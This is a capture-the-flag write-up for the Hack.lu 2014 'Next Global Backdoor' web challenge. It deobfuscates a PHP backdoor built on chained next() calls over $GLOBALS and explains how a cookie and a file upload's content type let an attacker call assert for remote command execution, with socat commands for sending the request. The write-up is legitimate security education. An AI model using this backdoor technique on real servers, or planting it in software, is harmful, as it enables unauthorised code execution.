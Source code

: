 # Hack.lu CTF 2014: Next Global Backdoor

**Category:** Web
**Points:** 150
**Author:** reiners
**Description:**

> J0nas is a simple man. He specializes in only one thing: Building the most beautiful back doors that you've ever seen. This gem was used in multiple saloons, letting only the most skilled c0wb0ys pass.
>
> <https://wildwildweb.fluxfingers.net:1425/index.php>
> [index.phps](index.phps)

## Write-up

Let's reformat the PHP source first:

    :::PHP
    $GLOBALS
    =
    $GLOBALS{next}
    =
    next($GLOBALS{'GLOBALS'})[
    	$GLOBALS['next']['next']
    	=
    	//* DELME */ var_dump(__LINE__, current($GLOBALS)) ? next($GLOBALS) :
    	next($GLOBALS)['GLOBALS']
    ][
    	$next['GLOBALS']
    	=
    	//* DELME */ var_dump(__LINE__, current($GLOBALS[GLOBALS]['GLOBALS'])) ? next($GLOBALS[GLOBALS]['GLOBALS'])[ $next['next'] ] :
    	next($GLOBALS[GLOBALS]['GLOBALS'])[
    		$next['next']
    	]
    ][
    	$next['GLOBALS'] = next($next['GLOBALS'])
    ][
    	//* DELME */ var_dump(__LINE__, $GLOBALS[next]) ? $GLOBALS[next]['next']( $GLOBALS['next']{'GLOBALS'}) :
    	$GLOBALS[next]['next'](
    		$GLOBALS['next']{'GLOBALS'}
    	)
    ]
    =
    next(neXt(${'next'}['next']));

Basically, a whole bunch of array pointer fun. You can see that there is one “dynamic” function call. At first glance, it looks like we can execute an arbitrary function with an argument of our choice if we can control the contents of `$GLOBALS[next]['next']` and `$GLOBALS['next']{'GLOBALS'}`. However, there is more to it than that. :-)

[`next`](https://php.net/next) moves the internal array pointer by one spot, and [`$GLOBALS`](https://php.net/globals) is a built-in array of global variables. By default, it contains the so-called [superglobals](https://php.net/superglobals), i.e. `$_GET`, `$_POST`, `$_COOKIE`, `$_FILES` and `$_SERVER` (depending on [`variables_order`](https://php.net/variables_order)), and `$GLOBALS` itself.

Because I suck at debugging (I have never used [Xdebug](http://xdebug.org/)), I sprinkled in a few `/* DELME /* var_dump()` lines to see what the current entry in each step was. It was hard for me to parse by reading because of all the variable variables and `next`’ing, so I also added a `source` entry to the `GET`, `POST`, and cookie arrays.

At the very start, the `$GLOBALS` array pointer points to `$_GET`. The first call to `next()` points it to `$_POST`, but another call advances it to `$_COOKIE`. (I found this hard to parse by reading because of the right-to-left interpretation mixed with the code inside the array keys — hence the `var_dump`.)

It then reads the value for the `GLOBALS` key, i.e. `$_COOKIE['GLOBALS']`. This will be the the name of the function to call, and the name of the file input under consideration when doing another `next($GLOBALS)`. After that third `next()`, we are at the `$_FILES` array (i.e., `$GLOBALS['_FILES_]`). The `next()` call on the `$_FILES[$_COOKIE['GLOBALS']]` entry advances that file array’s pointer to the second key, which is the content type. That value is used as the argument to the function call.

TL;DR The function in `$_COOKIE['GLOBALS']` is called with `$_FILE[$_COOKIE['GLOBALS']]['type']` as its only argument.

So, in short: leave `$_GET` and `$_POST` empty, set a cookie called `GLOBALS` with the name of the PHP function to call, add a file whose input name is that function name, and whose content type is the argument. (And ignore all the times `next` is used as an array key, be it as a string or as an (undefined) constant.)

Note that because [`eval`](https://php.net/eval) is not a function but a language construct, you cannot use it as the function to call. Use [`assert`](https://php.net/assert) instead.

Finally, here is an [example request](request.txt) (note the DOS line endings) which allows you to specify a shell command to run as a query string parameter.

You might need to [download the StartSSL root certificate](https://www.startssl.com/certs/ca-bundle.pem) first:

```bash
$ wget https://www.startssl.com/certs/ca-bundle.pem
```

Then, perform the request like this:

```bash
$ socat openssl:wildwildweb.fluxfingers.net:1425,cafile=./ca-bundle.pem stdio < request.txt
```

Eventually we found the flag in `/flag.txt` on the server. The flag is `flag{backdoor_business_is_hard,_fella}`.

## Other write-ups and resources

* none yet
